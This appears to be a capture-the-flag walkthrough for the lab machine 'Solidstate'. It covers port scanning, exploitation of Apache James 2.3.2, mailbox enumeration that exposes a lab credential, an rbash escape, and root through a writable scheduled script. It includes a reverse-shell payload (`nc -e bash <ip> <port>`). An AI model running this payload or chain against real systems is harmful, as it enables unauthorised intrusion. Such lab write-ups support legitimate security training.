

# Solidstate

## Machine Info


## Recon

- nmap

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.39 [10.10.14.39])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings:
|   GenericLines:
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94%I=7%D=12/15%Time=657B9854%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nP
SF:lease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPassw
SF:ord:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http, 25 smtp 110 pop3, 119 nntpd, 4555 rsip
- 80 whatweb

```
$ whatweb http://solidstate.htb/
http://solidstate.htb/ [200 OK] Apache[2.4.25], Country[RESERVED][ZZ], Email[webadmin@solid-state-security.com], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.51], JQuery, Script, Title[Home - Solid State Security]
```

- path, sudomain -> nothing [x]


## Foothold

### Apache James Server 2.3.2 RCE

- [40123-exploiting-apache-james-server-2.3.2.pdf (exploit-db.com)](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf)
- [Apache James Server 2.3.2 - Remote Command Execution - Linux remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/35513)

### 4555 Password Altering


- Users: `james`, `thomas`, `john`, `mailadmin`
- Pass: `qwe`

### 110 POP3 Enum

- james


- thomas


- john -> mindy's access cred is around



- mindy -> **mindy:P@55W0rd1!2@**


- mailadmin


## Privilege Escalation

### mindy's rbash escape

- method1: Apache James Server 2.3.2 RCE
  - run rce script: payload = `nc -e bash <ip> <port>`
  - ssh to login as mindy to trigger rshell
- method2: `ssh mindy@$IP -t "bash --noprofile"`


### mindy -> root

- script in /opt: /opt/tmp.py -> 777 -> clear /tmp -> very potentially is a sheduled task as root

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

- write in rshell into tmp.py -> get root shell


## Exploit Chain

4555 server default cred -> pop3 enum -> rbash -> escape -> sheduled task rshell as root -> root shell
